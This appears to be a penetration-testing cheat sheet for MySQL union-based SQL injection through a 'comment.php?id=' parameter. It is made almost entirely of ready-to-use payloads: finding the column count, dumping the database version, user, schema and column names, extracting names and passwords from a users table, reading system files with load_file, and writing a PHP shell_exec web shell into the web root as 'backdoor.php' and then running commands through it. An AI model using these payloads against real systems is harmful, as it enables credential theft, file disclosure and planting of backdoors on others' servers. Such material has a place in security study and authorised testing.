 # MySQL Injection 

- These examples are GET requests, but can be exploited the same with POST

## Number of Cols with Order By
Use to determine number of columns

```
comment.php?id=738 order by 1
```

Increment column number until you get an error to determine number of cols.

# Expose Data with Union All Select


```
union all select
```

Use numbers to show where data is displayed on the page
```
comment.php?id=738 union all select 1,2,3,4,5,6
```

Show DB version
```
comment.php?id=738 union all select 1,2,3,4,@@version,6
```

Show current user of DB connection
```
comment.php?id=738 union all select 1,2,3,4,user(),6
```

Show DB schema
```
comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
```

Display column names of users table
```
comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'
```

Get names and passwords from users table
```
comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users 
```

## Write a file 

Try to load a file
```
comment.php?id=738 union select 1,2,3,4,load_file('c:/windows/system32/drivers/etc/hosts'),6 FROM users 
```

Write a file
```
comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php' 
```

Access shell
```
backdoor.php?cmd=ipconfig
```
